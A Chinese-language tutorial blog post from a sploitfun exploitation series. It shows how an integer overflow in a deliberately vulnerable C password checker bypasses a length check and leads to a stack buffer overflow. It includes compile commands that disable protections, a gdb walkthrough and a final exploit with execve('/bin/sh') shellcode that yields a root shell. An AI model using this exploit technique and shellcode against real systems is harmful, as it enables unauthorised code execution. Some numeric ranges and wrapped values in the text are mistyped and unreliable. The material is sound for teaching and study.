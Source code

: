 ```yaml
---
layout: post
title: 整数溢出
excerpt: "sploitfun系列教程之1.2整数溢出"
categories: [sploitfun系列教程]
comments: true
---
```


存储大于最大支持值的值称为整数溢出。整数溢出本身不会导致任意代码执行，但整数溢出可能会导致堆栈溢出或堆溢出，这可能导致任意代码执行。在这篇文章中，我将仅谈论整数溢出导致栈溢出，整数溢出导致堆溢出将在后面的单独的帖子中讨论。

数据的种类和范围
```
 _______________________________________________________
|Data Type |  Size   | Unsigned Range | Signed Range    |
|-------------------------------------------------------|
|char      | 1       | 0 to 255       | -128 to 127     |
|-------------------------------------------------------|
|short     | 2       | 0 to 65535     | -32768 to 32767 |
|-------------------------------------------------------|
|int       | 4       | 0 to 4294967296| -2147483648 to  |
|          |         |                |  2147483647     |
|__________|_________|________________|_________________|
```
当我们试图存储一个大于最大支持值的值时，我们的值会被包装 。例如，当我们尝试将2147483648存储到带符号的int数据类型时，它将被包装并存储为-21471483648。这被称为整数溢出，这种溢出可能导致任意代码执行

#### 下界溢出
当我们尝试将-2147483649存储到带符号的int数据类型时，它将被包装并存储为21471483647.这称为下界溢出

漏洞代码如下
```c
//vuln.c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void store_passwd_indb(char* passwd) {
}

void validate_uname(char* uname) {
}

void validate_passwd(char* passwd) {
 char passwd_buf[11];
 unsigned char passwd_len = strlen(passwd); /* [1] */ 
 if(passwd_len >= 4 && passwd_len <= 8) { /* [2] */
  printf("Valid Password\n"); /* [3] */ 
  fflush(stdout);
  strcpy(passwd_buf,passwd); /* [4] */
 } else {
  printf("Invalid Password\n"); /* [5] */
  fflush(stdout);
 }
 store_passwd_indb(passwd_buf); /* [6] */
}

int main(int argc, char* argv[]) {
 if(argc!=3) {
  printf("Usage Error:   \n");
  fflush(stdout);
  exit(-1);
 }
 validate_uname(argv[1]);
 validate_passwd(argv[2]);
 return 0;
}
```
编译环境
```shell
echo 0 > /proc/sys/kernel/randomize_va_space
gcc -g -fno-stack-protector -z execstack -o vuln vuln.c -m32
chmod 777 vuln
```

查看validate_passwd汇编代码
```bash
gdb-peda$ disassemble validate_passwd 
Dump of assembler code for function validate_passwd:
   0x08048507 <+0>:	push   ebp
   0x08048508 <+1>:	mov    ebp,esp
   0x0804850a <+3>:	sub    esp,0x28
   0x0804850d <+6>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048510 <+9>:	mov    DWORD PTR [esp],eax
   0x08048513 <+12>:	call   0x80483d0 <strlen@plt>
   0x08048518 <+17>:	mov    BYTE PTR [ebp-0x9],al
   0x0804851b <+20>:	cmp    BYTE PTR [ebp-0x9],0x3
   0x0804851f <+24>:	jbe    0x8048554 <validate_passwd+77>
   0x08048521 <+26>:	cmp    BYTE PTR [ebp-0x9],0x8
   0x08048525 <+30>:	ja     0x8048554 <validate_passwd+77>
   0x08048527 <+32>:	mov    DWORD PTR [esp],0x8048674
   0x0804852e <+39>:	call   0x80483b0 <puts@plt>
   0x08048533 <+44>:	mov    eax,ds:0x804a040
   0x08048538 <+49>:	mov    DWORD PTR [esp],eax
   0x0804853b <+52>:	call   0x8048390 <fflush@plt>
   0x08048540 <+57>:	mov    eax,DWORD PTR [ebp+0x8]
   0x08048543 <+60>:	mov    DWORD PTR [esp+0x4],eax
   0x08048547 <+64>:	lea    eax,[ebp-0x14]
   0x0804854a <+67>:	mov    DWORD PTR [esp],eax
   0x0804854d <+70>:	call   0x80483a0 <strcpy@plt>
   0x08048552 <+75>:	jmp    0x804856d <validate_passwd+102>
   0x08048554 <+77>:	mov    DWORD PTR [esp],0x8048683
   0x0804855b <+84>:	call   0x80483b0 <puts@plt>
   0x08048560 <+89>:	mov    eax,ds:0x804a040
   0x08048565 <+94>:	mov    DWORD PTR [esp],eax
   0x08048568 <+97>:	call   0x8048390 <fflush@plt>
   0x0804856d <+102>:	lea    eax,[ebp-0x14]
   0x08048570 <+105>:	mov    DWORD PTR [esp],eax
   0x08048573 <+108>:	call   0x80484fd <store_passwd_indb>
   0x08048578 <+113>:	leave  
   0x08048579 <+114>:	ret    
End of assembler dump.
```
上述漏洞代码的[1]行显示了一个整数溢出错误。strlen（）的返回类型是size_t（unsigned int），它存储在unsigned char数据类型中。因此，任何大于unsigned char的最大支持值的值都会导致整数溢出。因此当密码长度为261时，261将被包裹并存储为“passwd_len”变量中的5！由于这个整数溢出，可以绕过行[2]执行的边界检查，从而导致基于堆栈的缓冲区溢出！而且在这篇文章中看到，基于堆栈的缓冲区溢出导致任意的代码执行。

#### 测试第一步：Return Address能否被覆盖
```bash
gdb vuln
gdb-peda$ r sploitfun `python -c 'print "A"*261'`
```
结果
```
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41414141 in ?? ()
Missing separate debuginfos, use: debuginfo-install glibc-2.17-292.el7.i686
```

#### 测试第二步：offset 是多少
offset长度是`0x18`

> 0x18 = 0xb + 0x1 + 0x4 + 0x4 + 0x4

其中
- 0xb是‘passwd_buf’大小
- 0x1是‘passwd_len’大小
- 0x4是栈对齐大小
- 0x4是edi
- 0x4是caller’s EBP

因此，用户输入的`“A” * 24 + “B” * 4 + “C” * 233`，以A覆盖passwd_buf，passwd_len，对齐空间，edi和调用者的ebp，以“BBBB”覆盖返回地址，以"C"覆盖剩余空间.

```shell
gdb vuln
gdb-peda$ r sploitfun `python -c 'print "A"*24 + "B"*4 + "C"*233'`
```
结果如下
```
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
```
这样我们就可以通过控制return address来控制程序

#### 最终exp
```bash
gdb vuln
gdb-peda$ r sploitfun `python -c 'print "A"*24 + "\x24\xd5\xff\xff" +"A"*4+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+ "C"*204'`
```
结果
```
gdb-peda$ r sploitfun `python -c 'print "A"*24 + "\x24\xd5\xff\xff" +"A"*4+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+ "C"*204'`
Starting program: /root/sploitfun/vuln sploitfun `python -c 'print "A"*24 + "\x24\xd5\xff\xff" +"A"*4+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"+ "C"*204'`
Valid Password
process 4612 is executing new program: /usr/bin/bash
Missing separate debuginfos, use: debuginfo-install glibc-2.17-292.el7.i686
sh-4.2# who
[New process 4674]
process 4674 is executing new program: /usr/bin/who
Missing separate debuginfos, use: debuginfo-install bash-4.2.46-33.el7.x86_64
root     pts/3        Nov  7 15:50 (61.172.240.228)
```
